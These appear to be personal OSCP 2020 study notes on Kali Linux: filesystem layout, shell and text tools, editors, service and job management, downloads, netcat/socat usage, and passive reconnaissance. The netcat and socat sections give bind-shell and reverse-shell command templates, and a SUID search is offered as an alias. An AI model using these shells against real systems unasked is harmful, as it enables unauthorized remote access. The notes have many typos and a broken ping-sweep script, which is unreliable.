


<div align="center">
<h1 style="color:red;font-size:10px;">OSCP 2020</h1>
 
 
</div>

# Getting Comfortable With Kali Linux

## System structure:

**/bin**
 this contains the basic programs (ls, cd, cat, etc.)


**/sbin**
this contains the system programs (fdisk, mkfs, sysctl, etc)


**/etc**
this contains the configuration files


**/tmp**
this contains the temp files (typically deleted on boot)


**/usr/bin**
this contains the user  applications (apt, ncat, nmap, etc.)


**/usr/share**
this contains the application support and data files


## useful commands:

### search the man pages

```
$ apropos [keyword]
```
```
$  man -k [keyword]
```

used to search in man pages for command based on it's function 

 
### Find File:

**locate**

to update the file index database

```
$ updatedb
$ locate [filename]
```
**which**

find the file which has current execution environment

```
$ which [part of file name]
```

**find**

powerfull search tool with many arguments

```
$ find [search location]  -name [filename] -exec file "{}"\;
```

## Service managent:

to chick service status:

```
# ss -antlp | grep [servicename]
```
where a= all, n= numirecal, t= TCP, l= listning, and p= process
```
# service [service name] [option]

```
option could be: start, stop, or restart

alternatevly you can use:

```
# /etc/init.d/[service name] [option]
```

or:

```
# systemctl [option] [service name]
```
option enable is used to set service to start on boot

or:

```
update-rc.d [service name] [options]

```

options here are: defaults, remove, start , or stop


**GUI service management:**

rcconf




sysv--rc-conf




## Command Line Fun

### some keyboard shortcuts

```
Shift + Ctrl + c "copy"
Shift + Ctrl + v "paste"
Ctrl + l "clear"
Ctrl + r "reverce search"
ctrl + d "close terminal"
flag + d "show desktop"
``` 
### Data Streames:

STDIN 0, STDOUT 1, and STDERR 2

to redirect STDOUT " the command result"

```
$ command 1> file 
```

to redirect STDERR " the command error MSG"

```
$ command 2> file 
```

# direct error to null screen (do not show errors)

```
command 2>/dev/null

```

the duble > ">>" in redirection means contanue on the file, while a single ">" means overright the file if it existing

the "<" means read from file

### Text Searching:

```
$ grep
```

```
$ cut -f [number] -d [delimiter]
```

the number here refaers to the order of the cutted feald arround the delimiter, if it was 1 means the feild before the delumuter,2 means next to it 3 means the 2nd one aftre the 1st ocuerance of the delimiter, and so on 

```
$ awk -F [delimiter] '{print $[fild number],$[fild number],....}'
```

awk accepts multi charachter delimiter, and can print selected filds of the input text


### Editing files:

#### <i>nano keyboard commands:</i>

Ctrl + O = write out to the file (save) 

Ctrl + k = Cut text

Ctrl + u = peast

Ctrl + w = search

Ctrl + x = exit 


#### <i>VI keyboard commands:</i>
in <b>vi</b> you have two diffrent moods (<i><b>text insert mood</b></i>, and <i><b>command mood</b></i>)

i = enable inserting text

(esc) = quit / <u>desable the inserting mode</u>

dd = delete current line

yy = copy the current line

p = peast

x = delete current charechtor

:w = save

:q = quit

:q! = quit without saving

:wq! = save and exit


## Comparing Files: 

```
$ comm -n [file1] [file2]
```
output is 3 columns 1st the unique lines in [file1], the 2nd the unique lines in [file2], and the 3rd is the commane lines in both files

where n changes from 1 ( showes only unique lines in file1), 2 (showes only unique lines in file2), or 12 ( showes command lines between the 2 files)

```
$ diff [option] [file1] [file2]
```

[option] is: -c context format, lists the two files and use "-" for the unique lines in [file1], and "+" for the unique lines in [file2]
              -u showes the two files containtes with "-/+" marks tags the unique lines in both files 
```
$ vimdiff [file1][file2]
```
shows the two files in alligned windows and marks the differenc

shortcut keys:

Ctrl+w (righ arrow): switch tetween the two windows

] +c : jump to the next changed line

[ +c : jump to the previuce changed line

d + o : copy changes from the other windows to the current one

d + p : copy changes from current windows to the other one

:q!  : to quit


## managing jobs and process:

to send a command execution to the background add "&" at the end of the command

Ctrl +z suspends a command executed in the forground then type "bg" this will resume the command execution in the background

jobs and fg commands

jobs used to list background command

fg used to bring background command to forground

fg %[job number] returnes this job to forground

ps command: Process Status

```
$ ps -ef
```
## Monitoring files
```
$ tail -f [file name]
```

the -f allow tail to keep live monitoring on the file update

```
$ sudo tail -f /var/log/apache2/access.log
```
here we can monitor every user being added to the system

## Monitoring commands

```
$ watch -n [time in seconds] [command]
```
execute command repetitively in specified time interval

## download files

```
$ wget -O [save file under name] [url]
```
```
$ curl -o [save file under name] [url]
```
with curl you can use diffrent options such as:
-d for adding data as prameters
-X for spacify the http method you use
-F for file upload
-T for file upload also
```
$ curl -F 'file=@[file name]' [url]
```
this is a http POST method
```
$ curl -T 'file name] [url]
```
but this is a http PUT method

```
$ axel -a -n [unmber of sessions] -o [save file under name] [url]
```

axel is download accelarator

-a show progress indecator

# Bash Shell


to automate actions you need to write some shell scripts for example filtring domain names from a html page:

``` 
wget cisco.com 
cat index.html | grep "a href=" | cut -d "/" -f3
```

if you get error *ERROR: The certificate of ‘www.cisco.com’ is not trusted.* just use *wget --no-check-certificate cisco.com*

other method:

```
cat index.html |grep 'http://[^"]*' | cut -d "/" -f 3 |sort -u
```
#### command aliases:
aliase a command for fast operation. for example the command find:

```
$ find / -perm -4000 2>/dev/null
```
this command is used to find files with <i><b>s</b></i> permission, which could be elised this way for easear recalling it

```
$ alias [alias name]='find / -perm -4000 2>/dev/null'
```
next time to call the search for the <i><b>s</b></i> permission, you can only call the alias.


## login with ssh-private key

```
ssh -i [key file path] [user]@[host]

```

## ping sweeper:

```
#! /bin/bash

for ip in $(1 255) do
ping 192.168.1.$ip | grep "bytes from" | cut -d " " -f4 | cut -d ":" -f1 &
```

the & is to send each command to background and run the next on in the loop

# Remote Login:

## Rdesktop

```
$ rdesktop -u *username* -p *password* *hostname/ip*
```

```
$ remmina
```
here you will provide the remote server IP address, username, and password in the GUI

## NetCat

on server side:

```
$nc -nlp [port]
```
n stands for numerical host ( no DNS)
l stands for listen
p stands for port

on clinet side:

```
$nc -n [netcat Server machine IP address] [port]
```

the port is the server spacified port number 


### NetCat file transfare:

server side (reciver):

```
$nc -npl [port] > [name for the recived file]
```

client side (sender):

```
$nc -n [serverIP] [server port] < [path of the file to be send]
```

### NetCat Remote Execution:

**forword command execution(Bind Shell)**

server side:

```
$nc -lp [port] -e [full path of command to be executed]
```

clinet side:

```
$nc -n [serverIP] [serve rport]
```

**reverse shell**

server side:

```
nc -lp [port]
```
clinet side:

```
nc -n *serverIP* *serverPort* -e *full path of command to be executed*
```
## socat

socat can be used for bidirectnal communication between sender and reciver

Server side:
```
$ socat - tcp4-LISTEN:[listning port number]
```
Client side:
```
$ socat - tcp4:[server ip address]:[server listning port number]
```
### socat file transfare:
Sender side:
```
$ socat tcp4-LISTEN:[listning port number],fork file:[the file to be send]
```
Reciever side:
```
$ socat tcp4:[sender ip address]:[sender port] file:[the file name to be saved],create
```

### socat reverse shell

Listner side:
```
socat -d tcp4-LISTNE:[listning port number] STDOUT
```
-d for verbos mode
STDOUT to direct the output to the Standard Output

Server side:
```
socat tcp4:[listnet ip address]:[listner port] EXEC:[command path]
```
command path could be /bin/bash

# Reconnaissance:

## Pasive Reconnaissance:

```
theHarvester -d [domainname] -b google

```

used to Harviste serch engens for data about the target domain

you can use any other search engen to search in

see the help for parameters

```
whois [domain name] OR [IP]
```


### DNS Enumeration:

``` 
host [internet hostname]
```

that would resolve the hostname to an IP address

```
host -t [DNS recired type] [domain]
```

recored type such as: ns, mx, a, and aaaa


Note -a insted of -t gets all the recoreds ns, mx, a, and aaaa recoreds
